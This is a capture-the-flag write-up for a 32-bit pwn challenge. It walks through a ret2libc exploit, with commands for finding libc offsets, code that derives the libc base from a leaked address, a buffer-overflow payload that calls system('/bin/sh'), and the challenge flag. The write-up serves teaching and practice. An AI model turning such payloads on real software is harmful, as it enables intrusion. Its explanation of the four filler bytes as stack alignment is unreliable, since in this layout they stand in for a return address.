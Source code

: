 # Give away 1 writeup

## Content

This writeup is about PWN challenge

	* libc-2.27.so: shared library (given)
	* give_away_1: challenge binary (given)
	* exploit.py: Full exploit

## Binary analysis

1. Quick check of the binary on ida gives

* main

![main](./screenshots/ida_main.png)

* vuln 

![vuln](./screenshots/ida_vuln.png)


2. Checksec shows that PIE and NX are enabled so we can go for ret2libc attack. 

![checksec](./screenshots/checksec.png)

## Exploit

This kinda of classic exploits so 

1. Step I: 

* Extract system and /bin/sh offset from libc binary

```shell
readelf -s  libc-2.27.so | grep system
strings -a -t x libc-2.27.so | grep /bin/sh
```

* Compute libc base address 

```python
out = p.recvline().strip().split(' ')
sysaddr = int(out[2],16)
libc_base = sysaddr - SYSTEM
```

2. Step II:

The argument for system ("/bin/sh") should be passed in the stack because `__cdecl` is  the calling convention of libc functions.

![libc_caling_convention](./screenshots/ida_libc_system.png)

```python
payload = "A" * 36 + p32(sysaddr) + "B"*4  + p32( BIN_SH_final)   
p.sendline(payload)
```

Basically we add a dummy 4 bytes("B" * 4) to the payload to avoid stack aligment issues as the stack should be 16-bytes aligned.

## Notes
* The Full exploit is in exploit.py
* Flag: shkCTF{I_h0PE_U_Fl4g3d_tHat_1n_L3ss_Th4n_4_m1nuT3s}